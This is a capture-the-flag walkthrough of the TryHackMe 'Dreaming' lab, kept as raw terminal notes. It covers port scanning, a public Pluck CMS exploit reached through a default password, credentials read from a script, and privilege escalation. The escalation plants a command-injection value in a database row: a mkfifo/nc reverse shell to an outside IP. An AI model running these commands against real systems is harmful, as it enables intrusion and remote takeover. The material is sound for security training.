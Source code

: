 link: https://tryhackme.com/room/dreaming

<code>
└─$ nmap -sV -sC -Pn dreaming.thm        
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-12 04:22 CST
Nmap scan report for dreaming.thm (10.10.57.14)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 nmap, gobuster

http://dreaming.thm/app/pluck-4.7.13/?file=dreaming

whoops default admin password is password
http://dreaming.thm/app/pluck-4.7.13/admin.php?action=start

use known exploit to get reverse shell
https://www.exploit-db.com/exploits/49909
─$ python3 49909.py 10.10.57.14 80 password /app/pluck-4.7.13/



p0wny@shell:/home# ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 28 22:26 .
drwxr-xr-x 20 root     root     4096 Jul 28 22:35 ..
drwxr-xr-x  4 death    death    4096 Aug 25 20:04 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25 16:26 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7 23:48 morpheus


run linpeas found interesing files 
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests

#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
www-data@dreaming:/opt$ su lucien
su lucien
<b>Password: HeyLucien#@1999!</b>
id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

get Lucien password login via ssh

lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py


lucien@dreaming:~$ mysql -u lucien -plucien42DBPASSWORD
mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

mysql> UPDATE dreams  set dreamer = 'id& rm', dream = ' /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f' WHERE dreamer = 'id& id';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from dreams;
+-----------------+--------------------------------------------------------------------------------+
| dreamer         | dream                                                                          |
+-----------------+--------------------------------------------------------------------------------+
| Alice           | Flying in the sky                                                              |
| Bob             | Exploring ancient ruins                                                        |
| Carol           | Becoming a successful entrepreneur                                             |
| Dave            | Becoming a professional musician                                               |
| id& rm          |  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f |
+-----------------+--------------------------------------------------------------------------------+

and run
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

<h2>get reverse shell as death </h2>



<\code>
